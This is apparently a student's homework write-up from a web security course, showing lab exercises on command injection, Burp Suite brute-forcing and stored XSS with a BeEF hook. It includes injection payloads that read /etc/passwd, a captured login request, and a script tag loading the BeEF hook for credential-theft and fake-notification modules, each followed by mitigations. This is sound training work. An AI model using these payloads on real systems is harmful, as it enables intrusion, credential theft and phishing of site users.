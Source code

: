 ### Week 15 Homework: Web Vulnerabilities and Hardening Homework

#### Web Application 1: *Your Wish is My Command Injection*

Access Vagrant and open a browser.

Launch Vagrant from GitBash and run the following command:

`cd ./Documents/web-vulns && docker-compose up`

Leave this page open and continue to the next step.

Open Chrome, navigate to the following web page:

`http://192.168.13.25`

Log in with the following credentials:

- User name: `admin`
- Password: `password`

Select the `Command Injection` option from the left menus.

Using the dot-dot-slash `../` method five times to design two payloads that will display the contents of the following files:

- `8.8.8.8 && cat ../../../../../etc/passwd`
![cat ../../../../../etc/passwd](images/passwd.png "cat ../../../../../etc/passwd")

- `8.8.8.8 && cat ../../../../../etc/hosts`
![cat ../../../../../etc/hosts](images/hosts.png "cat ../../../../../etc/hosts")

**Recommended mitigation strategies:**

- Server-side validation so unintended files aren't shown to the general public
- Confidential files should not be accesible onb the diorectories in this server. We need to segregate those files so they arent easible accesible tro unauthorized people.
- Permissions to restrict web server account accessibility.

#### Web Application 2: *A Brute Force to Be Reckoned With*

Run this command `sudo burpsuite` in Vagrant command line.

Open Firefox which was already installed `FoxyProxy` add-on extension in class activities.
![](images/bwapp.png)

In Burpsuite, I got following intercept data:

```
Request to http://192.168.13.35:80
```
```
POST /ba_insecure_login_1.php HTTP/1.1
Host: 192.168.13.35
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Connection: close
Referer: http://192.168.13.35/ba_insecure_login_1.php
Cookie: PHPSESSID=l998k837fiaj3b5c1o8kcsf0m6; security_level=0
Upgrade-Insecure-Requests: 1

login=test-user&password=password&form=submit
```

![Proxy Intercept results](images/intercept.png)

- Send above Proxy intercept results to Intruder. Click `Intruder` tab;
- Verify `Target`;

![Intruder Target](images/intruder-target.png)

- Setup `Positions`, select attack type `Cluster bomb`; 
- Configure and add `login` and `password` as positions.

![Intruder Positions](images/intruder-positions.png) 

- Click `Payloads` tab, choose `Payload` type as `Simple list`;
- Add login user ID from `List of Administrators` file into Payload set 1;
- Add password from `Breached list of Passwords` file into Payload set 2;

![Intruder Payloads](images/intruder-payloads.png)

- Click `Start attack`

After analysis of intruder attack results, the login username/password combination of "**`tonystark`**" and "**`I am Iron Man`**" did result in a successful login. The page displays `Successful login! You really are Iron Man :)`.

![Intruder Results](images/intruder-results.png)

Recommended mitigation strategies:

- Mitigations can include requiring complex usernames and passwords
- Enabling MFA (multi-factored authentication)
- Enabling a lockout after a certain amount of failed login attempts.

#### Web Application 3: *Where's the BeEF?*

**Step 1, Prepare Replicants website**

Inside Vagrant, go to this folder, run command:
`~/Documents/web-vulns$ docker-compose up`

Go to this website:
`http://192.168.13.25/vulnerabilities/xss_s/`

Reset db and login again.
Username: `admin`
Password: `password`

**Step 2, Setup BeEF**

On Vagrant, open a command line and run the following command: `sudo beef`

When prompted for a password, enter `cybersecurity`.

To access the BeEF GUI, right-click the first URL `UI_URL: http://127.0.0.1:3000/ui/panel` and select Open Link.

When the BeEF webpage opens, login with the following credentials:

Username: `beef`
Password: `feeb`

**Step 3, Find BeEF hook and write payload**

```
BeEF hook: http://127.0.0.1:3000/hook.js

Playload: <script src="http://127.0.0.1:3000/hook.js"></script>
```

**Step 4, Inject this payload**

One issue was found: in the message box field, there only has maxlength="50" in original source code, therefore we can not input the whole payload code.
![](images/maxlength-50.png)

Solution: Right-clicking on web page and selecting "Inspecting the Element". Change as `maxlength="100"`, or just delete this code limit.

![](images/maxlength-100.png)

**Step 5, A couple BeEF exploits**

Theft

![Pretty Theft - Facebook](images/pretty-theft.png)

![Pretty Theft - LinkedIn](images/pretty-theft-2.png)

Fake Notification Bar

![Fake Notification Bar](images/fake-notification-bar.png)

Get Geolocation (Third Party)

![Get Geolocation (Third Party)](images/get-geolocation.png)

#### Recommended mitigation strategies

- A common method of mitigating cross-site scrippting is by implementing "Input Validation"
- With input validation, a regular user wont be able to exploit the site since the server will evaluate the request and respond with only allowed information instead of displaying confidential info. 
